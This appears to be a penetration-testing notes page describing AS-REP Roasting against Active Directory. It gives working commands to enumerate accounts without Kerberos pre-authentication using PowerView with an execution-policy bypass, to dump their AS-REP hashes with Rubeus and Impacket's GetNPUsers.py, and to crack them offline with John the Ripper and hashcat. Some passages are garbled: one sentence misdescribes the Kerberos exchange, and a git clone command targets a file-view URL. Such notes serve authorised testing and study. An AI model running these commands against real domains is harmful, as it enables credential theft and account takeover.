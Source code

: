 # AS-REP Roasting

The AS-REP Roasting technique enables attackers to acquire password hashes of user accounts that have **deactivated** Kerberos pre-authentication. This method entails transmitting an Authentication Server Request (AS-REQ) message to the domain controller (DC). If pre-authentication is disabled, the DC will return an AS-REP message containing encrypted data, including a segment encrypted with the user's password hash. Subsequently, the attacker can utilize this information to attempt cracking the user's password offline.

**AS-REP Roasting** is a technique used to exploit a weakness in the Kerberos authentication procotol.\
In the Kerberos protocol, when a user wants to authenticate to a service, they send an **Authentication Service request (AS-REQ)**  to the **Key Authentication Service reply (AS-REP)**, which includes a **ticket-granting ticket (TGT)**. The TGT is encrypted using the user's password hash.

AS-REP Roasting takes advantage of the fact that some user accounts in AD may have the "**Do not require Kerberos preauthentication**" option **enabled**. This option allows the AS-REP to be requested without the need for the user's password.

#### AS-REP Roasting Method:

* **Find vulnerable users** of the domain with tools
* Do a **AS-REP attack** to get user TGT
* **Crack** the TGT obtained earlier&#x20;

## Find vulnerable user

First we have to detect all user in the domain that has "**Do not require Kerberos preauthentication**" option **enabled**.

### Detect with PowerView

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import powerview module
powershell -ep bypass
. .\PATH\TO\PowerView.ps1
```

{% code title="Detect with PowerView " %}
```powershell
Get-Domainuser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
Get-DomainUser -PreauthNotRequired -verbose
```
{% endcode %}

### Detect with Rubeus.exe

```powershell
.\Rubeus.exe asreproast
```



## AS-REP Attack

With this attack with can get the TGT of the vulnerable user.

### AS-REP with Rubeus.exe

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into the target and run it with appropriate tag.

{% content-ref url="../../executive-pt/post-exploitation/trasferring-files.md" %}
[trasferring-files.md](../../executive-pt/post-exploitation/trasferring-files.md)
{% endcontent-ref %}

```powershell
.\Rubeus.exe asreproast /usr:$USER /outfile:tgthash.txt
.\Rubeus.exe asreproast /format:hashcat /outfile:tgthash.txt
```

### GetNPUsers.py

The **GetNPUsers.py** script from Impacket can be used to request a TGT ticket and dump the hash.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py" %}

Clone the script in your kali machine and use it with opportune flags.

```bash
git clone https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```

```bash
GetNPUsers.py $DOMAIN_NAME.local/$USER -dc-ip $DC_IP -no-pass
```

Save the hash in the file and move on.

## Crack the TGT

Once we have a output file with TGT ticket of a user in the Domain, we can try to crack it with JtR or Hashcat.

{% code overflow="wrap" %}
```bash
john PATH/TO/$tgt_hash.txt --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

```bash
john $tgt_hash.txt --fork=4 -w=/PATH/TO/rockyou.txt
```

```bash
hashcat -m 18200 --force -a 0 $tgt_hash.txt 
```










